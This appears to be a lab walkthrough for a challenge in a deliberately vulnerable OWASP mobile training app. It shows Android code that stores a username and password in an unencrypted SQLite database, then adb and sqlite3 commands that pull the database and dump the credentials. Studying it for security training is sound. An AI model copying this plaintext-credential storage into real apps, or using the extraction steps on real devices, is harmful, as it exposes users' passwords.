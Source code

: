 ## OMTG-DATAST-001-SQLITE

> app/src/main/java/sg/vp/owasp_mobile/OMTG_Android/OMTG_DATAST_001_SQLite_Not_Encrypted.java

```
SQLiteDatabase openOrCreateDatabase = openOrCreateDatabase("privateNotSoSecure", 0, null);

openOrCreateDatabase.execSQL("CREATE TABLE IF NOT EXISTS Accounts(Username VARCHAR,Password VARCHAR);");
openOrCreateDatabase.execSQL("INSERT INTO Accounts VALUES('admin','AdminPass');");

openOrCreateDatabase.close();
```

Exploit:

- `adb pull /data/data/sg.vp.owasp_mobile.omtg_android/databases/`

- `$ sqlite3 privateNotSoSecure`

- `sqlite> select * from sqlite_master;`

```
table|android_metadata|android_metadata|3|CREATE TABLE android_metadata (locale TEXT)
table|Accounts|Accounts|4|CREATE TABLE Accounts(Username VARCHAR,Password VARCHAR)
```

- `sqlite> select * from Accounts;`

```
admin|AdminPass
```

